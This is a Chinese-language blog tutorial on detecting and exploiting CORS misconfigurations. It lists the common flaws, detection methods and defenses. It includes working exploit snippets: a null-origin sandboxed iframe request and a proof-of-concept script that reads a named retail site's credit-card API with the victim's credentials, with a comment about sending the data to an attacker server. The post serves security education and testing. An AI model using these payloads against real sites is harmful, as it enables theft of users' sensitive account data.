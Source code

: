 # CORS漏洞检测和利用方式


## 简介

CORS全称`Cross-Origin Resource Sharing`, 跨域资源共享，是HTML5的一个新特性，已被所有浏览器支持，不同于古老的jsonp只能get请求，被发明出来就是为了干掉JSONP的，因为用的多，其安全问题也更加普遍。

解决了跨域情况下资源的请求与传输。



## CORS实现原理



> 有个常见的关于同源策略的误区需要指出一下，同源策略并不限制请求的发起和响应，只是浏览器拒绝了js对响应资源的操作



CORS本质上就是使用各种头信息让浏览器与服务器之间进行交流，上面提到的名单就是用下面的http头字段来控制的：

![cors的http字段](https://image.geoer.cn/img/image-20220112212319982.png)

其中比较重要的相应头为：

```
Access-Control-Allow-Origin: http://a.com  表示服务端接受来自http://a.com的跨域请求
Access-Control-Allow-Credentials: true  表示是否允许发送Cookie，true即发送cookie
```





## CORS常见安全问题

实际中我们可能会遇到各种场景，所以CORS也很容易出现配置上的安全问题，大概有如下几种：

### 1 反射Origin头

当管理员想允许多个域名跨域请求时，以下写法都是不允许的

```bash
Access-Control-Allow-Origin: http://a.com, http://c.com
#或者
Access-Control-Allow-Origin: http://*.a.com
```

因为CORS标准规定，Access-Control-Allow-Origin**只能配置为单个origin, null或***。

有些开发者为了方便，直接使用请求者的origin作为Access-Control-Allow-Origin的域名，例如下面的Nginx配置:

```bash
add_header "Access-Control-Allow-Origin" $http_origin;
add_header "Access-Control-Allow-Credentials" "true";

# 这种配置非常危险，相当于任意网站可以直接跨域读取其资源内容。
```





### 2 Origin 校验错误

前面那种反射Origin的做法过于暴力，一般不可取，常用做法是通过自定义规则来校验Origin头，但是在校验过程中也会出现错误。这些错误可以分为四类：

- **前缀匹配**：例如想要允许example.com访问，但是只做了前缀匹配，导致同时信任了example.com.attack.com的访问。
- **后缀匹配**：例如想要允许example.com访问，由于后缀匹配出错，导致允许attackexample.com访问。
- **没有转义`.`**：例如想要允许www.example.com访问，但正则匹配没有转义`.`，导致允许wwwaexample.com访问。
- **包含匹配**：例如想要允许example.com，但是Origin校验出错，出现允许ample.com访问。



### 3 信任null

当配置信任名单为null，可以用来和本地file页面共享数据，如下所示：

```
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

但是攻击者也可以构造Origin为null的跨域请求，比如通过iframe sandbox：

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src='data:text/html,<script>
var xhr=new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
        alert(xhr.responseText);
    }
}
xhr.open("GET", "http://www.a.com/a.php", true);
xhr.withCredentials = true;
xhr.send();</script>'>
</iframe>
```



### 4 HTTPS域信任HTTP域

但是如果该HTTPS网站配置了CORS且信任HTTP域，那么中间人攻击者可以先劫持受信任HTTP域，然后通过这个域发送跨域请求到HTTPS网站，间接读取HTTPS域下的受保护内容.



### 5 信任自身全部子域

很多网站为了方便会将CORS配置为信任全部自身子域，这种配置会扩大子域 XSS的危害。

比如某子站存在xss时，可以通过此xss发送跨域请求，从而获取敏感内容。



### 6 Origin:*与 Credentials:true 共用

`Access-Control-Allow-Origin:*`用于表示允许任意域访问，这种配置只能用于共享公开资源。

所以下面这种配置是错误的，浏览器不允许这两种配置同时出现。(对于共享公开资源，不应该需要身份认证)

```
Access-Control-Allow-Origin: * 
Access-Control-Allow-Credentials: true 
```



### 7 缺少Vary: Origin头

如果一个资源享有多个域名，它需要对不同域名的请求包生成不同的Access-Control-Allow-Origin头。如果一个请求的响应被缓存，且返回中没有Vary: Origin字段，可能会导致其它域名的请求失效。

比如c.com同时允许a.com和b.com共享。c.com资源内容首先被a.com脚本跨域访问后被缓存，其中缓存响应头为`Access-Control-Allow-Origin:http://a.com`这时，b.com脚本则不能读取缓存响应内容，因为缓存响应头是允许a.com共享，而不是b.com。





## 检测方式

F1.curl访问网站　　

```
curl http://www.xpshuai.cn -H "Origin: https://test.com" -I
```

检查返回包的 Access-Control-Allow-Origin 字段是否为https://test.com



F2.burpsuite发送请求包，查看返回包



F3.也可以用开源工具：https://github.com/chenjj/CORScanner



F4.对于网站漏洞的挖掘可以使用burp，先勾选上proxy --> options --> Origin --> match and replace里面的Add spoofed CORS origin。

然后在网站观察功能点，最后在HTTP history来筛选带有CORS头部的值，然后用以上工具查看是否有配置缺陷。

检测到CORS配置错误以后，以下有一份poc可用来写报告（感谢大佬）：

```javascript
<script>
    //以受害者身份，发送一个跨域请求给目标url
    var req = new XMLHttpRequest();
    req.open('GET',"https://www.walmart.com/account/electrode/account/api/customer/:CID/credit-card",true);
    req.onload = stealData;
    req.withCredentials = true;
    req.send();

    function stealData(){
        //由于目标站点的CORS配置错误，我们可以读取到相应包
        var data= JSON.stringify(JSON.parse(this.responseText),null,2);

        //展示相应包到这个页面上，作为hacker还可以将内容发送到自己的服务器
        output(data);
    }

    function output(inp) {
        document.body.appendChild(document.createElement('pre')).innerHTML = inp;
    }
</script>

```



## 危害

1.同于csrf跨站请求伪造，发送钓鱼链接，读取用户敏感数据。

​	还可以获取cookie，针对http-only js代码无法读取的情况



2.结合xss漏洞利用cors漏洞，针对http_only js代码无法读取











## 漏洞防范

- 不要盲目反射Origin头
- 严格校验Origin头，避免出现权限泄露
- 不要配置Access-Control-Allow-Origin: null
- HTTPS网站不要信任HTTP域
- 不要信任全部自身子域，减少攻击面
- 不要配置Origin:*和Credentials: true
- 增加Vary: Origin头







## 参考文章

[CORS介绍及其漏洞检测 - SAUCERMAN (saucer-man.com)](https://saucer-man.com/information_security/331.html)



---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/cors%E6%BC%8F%E6%B4%9E%E6%A3%80%E6%B5%8B%E5%92%8C%E5%88%A9%E7%94%A8%E6%96%B9%E5%BC%8F/  

